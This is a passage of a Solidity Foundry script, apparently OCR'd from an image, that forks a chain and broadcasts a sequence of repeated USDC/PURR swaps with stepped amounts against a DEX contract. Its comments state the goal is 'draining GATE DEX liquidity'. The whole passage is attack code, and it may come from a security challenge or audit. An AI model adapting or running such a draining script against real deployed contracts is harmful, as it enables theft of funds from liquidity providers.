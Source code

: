         logBalances_gate();

        vm.stopBroadcast();
    }

    function code_swap_usdc_purr_0() public {
        vm.createSelectFork(vm.envString("RPCURL_CODE"));
        vm.startBroadcast(privkey);

        // approve
        tokenA_code.approve(address(dex_code), type(uint).max);
        tokenB_code.approve(address(dex_code), type(uint).max);
        tokenC_code.approve(address(dex_code), type(uint).max);
        
        // swap USDC for PURR
        // and back
        // draining GATE DEX liquidity
        logBalances_code();

        uint amount = 139 + 19 * 0;
        dex_code.swap(myAddr, USDC, PURR, amount * 1 ether, false);

        logBalances_code();

        vm.stopBroadcast();
    }

    function code_swap_usdc_purr_1() public {
        vm.createSelectFork(vm.envString("RPCURL_CODE"));
        vm.startBroadcast(privkey);

        // swap USDC for PURR
        // and back
        // draining GATE DEX liquidity
        logBalances_code();

        uint amount = 139 + 19 * 0;
        dex_code.swap(myAddr, PURR, USDC, amount * 5 ether, false);
        amount += 19;
        dex_code.swap(myAddr, USDC, PURR, amount * 1 ether, false);

        logBalances_code();

        vm.stopBroadcast();
    }

    function code_swap_usdc_purr_2() public {
        vm.createSelectFork(vm.envString("RPCURL_CODE"));
        vm.startBroadcast(privkey);

        logBalances_code();

        uint amount = 139 + 19 * 1;
        dex_code.swap(myAddr, PURR, USDC, amount * 5 ether, false);
        amount += 19;
        dex_code.swap(myAddr, USDC, PURR, amount * 1 ether, false);

        logBalances_code();
